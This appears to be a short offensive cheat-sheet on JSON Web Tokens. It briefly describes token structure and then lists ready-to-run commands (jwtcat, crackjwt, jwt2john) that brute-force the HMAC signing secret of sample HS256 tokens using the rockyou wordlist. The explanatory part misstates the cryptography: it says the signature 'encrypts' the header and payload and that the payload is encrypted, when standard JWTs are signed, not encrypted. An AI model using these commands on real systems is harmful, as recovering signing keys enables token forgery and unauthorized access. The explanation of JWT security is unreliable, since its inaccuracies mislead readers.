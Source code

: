 JSON Web Token is a compact mechanism used for transferring claims between two Endpoint to protect the integrity of the underlying message using a Message Authentication Code (MAC) encrypted. A JSON Web Token consists of three parts; an encoded Header, an encoded Payload and the Signature.
* The Header contains metadata, defines the type of token and the algorithm used for encryption of Payload.
* The Payload contains the claims to routes and services in value key pairs. 
* The signature is calculated by encrypting the base64UrlEncoded values of Header and Payload using a secret Key





### HMAC secretKey  Brute-force attacks Using Known Wordlist attacks
The algorithm HS256 uses the secret key to sign and verify each message. The algorithm RS256 uses the private key to sign the message and uses the public key for authentication

```
python3 jwtcat.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4 -w /usr/share/wordlists/rockyou.txt

python3 jwtcat.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.J8SS8VKlI2yV47C4BtfYukWPx_2welF34Mz7l-MNmkE -w /usr/share/wordlists/rockyou.txt

python3 jwtcat.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4 -w /usr/share/wordlists/rockyou.txt

python crackjwt.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4 /usr/share/wordlists/rockyou.txt

python jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4  > jwt.john

```
